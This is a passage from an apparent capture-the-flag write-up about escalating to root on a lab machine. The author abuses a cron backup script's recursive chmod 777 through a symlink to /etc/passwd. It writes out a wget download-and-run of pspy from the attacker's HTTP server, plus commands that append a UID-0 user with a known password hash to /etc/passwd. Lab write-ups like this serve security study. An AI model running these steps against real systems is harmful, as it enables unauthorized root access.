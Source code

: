 ## Steps (root/system)

Reviewing giovanni's home directory I found a folder called work which contained a file called backup_courses.tar.gz.

![image](https://user-images.githubusercontent.com/10210108/85214866-d02a5180-b33e-11ea-9880-6726760f7fea.png)

To see if any cron jobs were running I decided to us pspy so I copied it to my working directory and started a python http server

```
cp ~/tools/pspy/pspy32 .
sudo python3 -m http.server 80
```

Wget was used to copy pspy32 to the target and run it

```
wget http://10.10.14.21/pspy32
chmod +x pspy32 && ./pspy32
```

I saw that a file called backup.sh was being run

![image](https://user-images.githubusercontent.com/10210108/85214851-98230e80-b33e-11ea-88ed-a84eba8ede4e.png)

Taking a look at backup.sh
```
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```

This script does the following:
* changes to /home/giovanni/work
* creates a tar file of courses and all subfolders and stores a file called backup_courses.tar.gz in tmp
* changes to tmp folder
* extracts backup_courses.tar.gz
* changes permissions to chmod 777 recursively

I took advantage of the chmod 777 command by setting a symbolic link to /etc/passwd from a file in /home/giovanni/work/tmp/ called passwd. Once the script was run I was able to add a user and gain root privileges.

First I generated a password which was then appended to /etc/passwd
```
openssl passwd -1 -salt gonzo password
echo 'gonzo:$1$gonzo$1t.J8KuM9rxYwo.5voEfD/:0:0:/root/root:/bin/bash' >> /etc/passwd
```

I was then able to su to gonzo which gave me access as root.

```
su gonzo
```

![image](https://user-images.githubusercontent.com/10210108/85215988-84cb6f80-b34d-11ea-864b-2d170d812996.png)
